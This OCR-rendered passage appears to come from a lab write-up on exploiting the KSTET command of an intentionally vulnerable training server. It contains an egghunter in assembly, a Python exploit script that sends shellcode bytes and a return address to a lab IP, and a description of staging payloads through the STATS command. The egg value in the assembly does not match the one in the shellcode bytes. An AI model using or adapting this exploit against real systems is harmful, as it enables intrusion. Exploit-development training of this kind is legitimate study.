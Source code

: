 ```
mov eax,0x57303054
mov edi,edx
scasd
jnz 0x5
scasd
jnz 0x5
jmp edi
```

Here is a wrapper script to set the stack pointer, place the egghunter, and call
`JMP ESP`:
```
#!/usr/bin/env python

import sys
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.186.135", 9999))

message  = "KSTET "
message += '\x90' * 8

buf  = "\x50\x5c"
buf += "\x31\xd2\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58"
buf += "\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x41\x30\x30\x57" 
buf += "\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

message += buf
message += '\x42' * 26
message += '\xaf\x11\x50\x62' 
message += '\xeb\xbc'
message += "\n"

s.send(message)
s.close()
```

Inserting an egg to find, though, is another matter.  

### STATS Command
Branching out, we discover that the `STATS` command stores our output in
memory.  It itself does not appear to be vulnerable to a buffer overflow attack,
but if we can use it to insert our egg and payload, we can then overflow 
`KSTET` to fire off an egghunter.  

Complications quickly arise, however, when we realize that `STATS`, too, is
truncated after just around 100 bytes.  Thankfully, we are not limited in the
number of times we can use `STATS` to insert segments into memory.  

### Splitting Shellcode
We adapt the arithmetic encoder we've used previously to encode our shellcode
and push it onto the stack.  Since we were relatively unrestricted in our
character set, we modify the encoder to push the naked bytes in reverse order,
only resorting to carving the desired value out of a block of 0xFFFFFFFF when it
contains one of our forbidden characters.  
